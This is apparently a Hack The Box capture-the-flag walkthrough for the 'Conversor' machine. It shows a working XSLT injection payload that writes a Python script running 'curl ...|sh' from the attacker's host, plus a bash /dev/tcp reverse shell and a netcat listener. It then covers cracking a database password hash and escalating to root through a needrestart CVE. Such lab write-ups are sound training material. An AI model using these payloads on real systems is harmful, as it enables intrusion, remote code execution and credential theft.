

---

# Conversor (Easy): 10.10.11.92


---

## Quick overview

A new Linux machine (easy) that presented the following path:

1. **XSLT exploitation** → Database access → **USER.TXT**
2. **Needrestart 3.7 privilege escalation** → [CVE-2024-48990 automatic exploit](https://github.com/Serner77/CVE-2024-48990-Automatic-Exploit) → *Thanks to @Serner77* → **ROOT.TXT**

---

## USER.TXT

### Nmap enumeration

As usual, we start with an `nmap` scan, which shows the classic ports 22 and 80.


We opened the Conversor web page and quickly noticed XML conversion via XSLT. The **About** page hinted that the source is discoverable.

From the source code we found several useful details:

1. The XSLT is exploitable.
2. Python scripts can be executed from the **scripts** directory (this is mentioned in `install.md`).
3. The users database is stored in the **instance** directory.

### First step

We started by obtaining a reverse shell. Using the XSLT file we uploaded, we instructed the server to write a Python script to `/var/www/conversor.htb/scripts/shell.py`, which then uses `curl` to fetch a reverse-shell script from our machine.

Upload the following XSLT file:

```XSLT
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:exploit="http://exslt.org/common"
    extension-element-prefixes="exploit"
    version="1.0">
<xsl:template match="/">
<exploit:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl 10.10.14.203:8000/shell.sh|sh")
</exploit:document>
</xsl:template>
</xsl:stylesheet>
```

On our machine we started a simple HTTP server with `python3 -m http.server` to host the reverse-shell script:

```sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.203/9999 0>&1'
```

Then we ran a netcat listener: `nc -nlvp 9999`.

> Note: For more information on XSLT injection, see [XSLT Injection — PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/).

This gave us initial access, as shown below:


### Database download

Next, we copied the SQLite database from the target to our machine so we could analyze it safely. We launched a Python HTTP server on the victim to serve the DB and downloaded it locally:


I opened the DB with `sqlitebrowser` and found the user **fismathack** with a hashed password:


### Final step 

After cracking the hash with [CrackStation](https://crackstation.net) we could log in as **fismathack** over SSH and capture the `USER.TXT` flag.


---

## ROOT.TXT

### Discovery

We ran `sudo -l` and discovered we could run `needrestart 3.7` with sudo privileges.


### Exploit

A quick research showed that `needrestart 3.7` is vulnerable (CVE-2024-48990). I used the following PoC: [CVE-2024-48990-Automatic-Exploit](https://github.com/Serner77/CVE-2024-48990-Automatic-Exploit).

> Note: If the exploit doesn't work, reset the machine on HTB and try again.

The exploit grants a root shell, allowing us to read `ROOT.TXT`:



As you can see, the exploit provided a root shell and we captured the `ROOT.TXT` flag.


---


